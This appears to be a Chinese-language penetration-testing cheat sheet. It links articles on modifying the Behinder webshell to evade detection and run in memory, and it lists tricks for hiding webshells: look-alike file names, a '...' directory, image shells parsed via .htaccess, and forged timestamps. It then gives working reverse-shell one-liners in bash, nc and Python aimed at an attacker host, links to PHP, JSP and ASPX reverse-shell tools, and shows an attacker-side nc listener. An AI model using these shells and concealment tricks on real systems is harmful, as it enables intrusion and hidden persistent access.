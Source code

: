 冰蝎去特征（请参考酒仙桥六号部队的文章）

[冰蝎，从入门到魔改](https://mp.weixin.qq.com/s/s_DcLdhEtIZkC2_z0Zz4FQ)

[冰蝎改造之不改动客户端=>内存马](https://mp.weixin.qq.com/s?__biz=MzU2NTc2MjAyNg==\&mid=2247484318\&idx=1\&sn=ece9e52218be0ea84ef166c3bfd20f23\&chksm=fcb7811bcbc0080dd2c39f228dcfe069880218b9f354b1283606af680b1eaecdc07a8a43b188\&scene=126\&sessionid=1596615082\&key=4024143df9a90d6cf039e6e552bb5cc12f755fd25a44855e8dfaff85efc30720e50fd9f3299dbb007c78e96c833dc3df98a87f4c4a4e3ccff0084c0ad0325d06a0265851bfa777df7f014bc8d790632f\&ascene=1\&uin=MTUwNjgwNTkxMA%3D%3D\&devicetype=Windows+10+x64\&version=62090070\&lang=zh_CN\&exportkey=AzFdHdxTih44P2kITVRk35s%3D\&pass_ticket=lppPNqJhx8ZD573ypwsqgQ41%2F%2BJd%2B2avwvIfBnLfOjeNcQkihuzk3CgS%2F36Je%2Bnb)

#### 隐藏WebShell

> 1、仿照已存在的文件起名字，隐藏在深层目录， 创建…目录隐藏shell（ls -al你就知道为啥了）
>
> 2、利用静态文件，比如图片马然后利用 .htaccess 进行解析
>
> 3、修改WebShell时间戳为同目录下其它文件相同的时间

#### 反弹Shell

```
#Bash
bash -i >& /dev/tcp/attackerip/6666 0>&1

#nc
nc -e /bin/sh attackerip 6666

#python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.1.1.15",6666));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

#DNS_Shell
https://github.com/ahhh/Reverse_DNS_Shell

#icmp_shell
http://icmpshell.sourceforge.net/

#Linux(index.js)
https://github.com/lukechilds/reverse-shell
```

**PHP**： [https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)

**JSP**： [https://github.com/z3v2cicidi/jsp-reverse-shell](https://github.com/z3v2cicidi/jsp-reverse-shell)

**ASPX**： [https://github.com/borjmz/aspx-reverse-shell](https://github.com/borjmz/aspx-reverse-shell)

> **攻击机 VPS 监听接 shell**

```
nc -lvp 666
```
